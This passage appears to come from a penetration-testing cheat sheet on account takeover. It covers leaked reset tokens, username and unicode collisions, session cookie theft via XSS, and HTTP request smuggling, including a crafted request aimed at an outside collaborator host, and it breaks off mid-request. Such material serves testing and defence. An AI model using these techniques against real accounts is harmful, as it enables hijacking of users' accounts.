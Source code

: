 ### Leaking Password Reset Token

1. Trigger a password reset request using the API/UI for a specific email e.g: test@mail.com
2. Inspect the server response and check for `resetToken`
3. Then use the token in an URL like `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Password Reset Via Username Collision

1. Register on the system with a username identical to the victim's username, but with white spaces inserted before and/or after the username. e.g: `"admin "`
2. Request a password reset with your malicious username.
3. Use the token sent to your email and reset the victim password.
4. Connect to the victim account with the new password.

The platform CTFd was vulnerable to this attack. 
See: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)


### Account takeover due to unicode normalization issue

- Victim account: `demo@gmail.com`
- Attacker account: `demⓞ@gmail.com`


## Account Takeover Via Cross Site Scripting

1. Find an XSS inside the application or a subdomain if the cookies are scoped to the parent domain : `*.domain.com`
2. Leak the current **sessions cookie**
3. Authenticate as the user using the cookie

## Account Takeover Via HTTP Request Smuggling

Refer to **HTTP Request Smuggling** vulnerability page.
1. Use **smuggler** to detect the type of HTTP Request Smuggling (CL, TE, CL.TE)
    ```powershell
    git clone https://github.com/defparam/smuggler.git
    cd smuggler
    python3 smuggler.py -h
    ```
2. Craft a request which will overwrite the `POST / HTTP/1.1` with the following data:
    ```powershell
    GET http://something.burpcollaborator.net  HTTP/1.1
    X: 
    ```
3. Final request could look like the following
    ```powershell
    GET /  HTTP/1.1
    Transfer-Encoding: chunked
    Host: something.com
    User-Agent: Smuggler/v1.0
    Content-Length: 83
